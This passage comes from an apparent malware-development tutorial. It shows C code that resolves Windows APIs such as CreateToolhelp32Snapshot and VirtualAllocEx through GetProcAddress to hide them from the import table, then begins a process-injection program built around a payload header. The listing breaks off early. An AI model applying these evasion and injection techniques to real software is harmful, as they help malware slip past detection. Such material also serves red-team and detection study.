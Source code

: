 Then to use `_CreateToolhelp32snapshot`, we use it exactly like how we use the original API:

```c
    // check to ensure it's been resolved
    if( NULL == _CreateToolhelp32Snapshot )
    {
        return 1;
    }

    process_snapshot = _CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS, 0 );
```

Another example with `VirtualAllocEx`:

```c
    LPVOID( WINAPI * _VirtualAllocEx )
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    );

    _VirtualAllocEx = ( LPVOID( WINAPI *) 
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    )) GetProcAddress( kernel32_dll_handle, "VirtualAllocEx" );

    if( NULL == _VirtualAllocEx )
    {
        // printf( "Could not resolve VirtualAllocEx!\n" );
        return 1;
    }

    target_process_allocated_memory = _VirtualAllocEx( target_process, NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
```

We can repeat this process of resolving API’s to hide them from the IAT. Here is the final code for this version:

```c
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>
#include "payload.h"

int main( int argc, char* argv[] )
{
    if( argc < 2 )
    {
        return 1;
    }

    HANDLE process_snapshot;
    HANDLE target_process = NULL;
    PROCESSENTRY32 current_process;
    DWORD process_id = atoi( argv[1] );

    //
    // ENUMERATE RUNNING PROCESSES TO ENSURE PID IS VALID
    //
```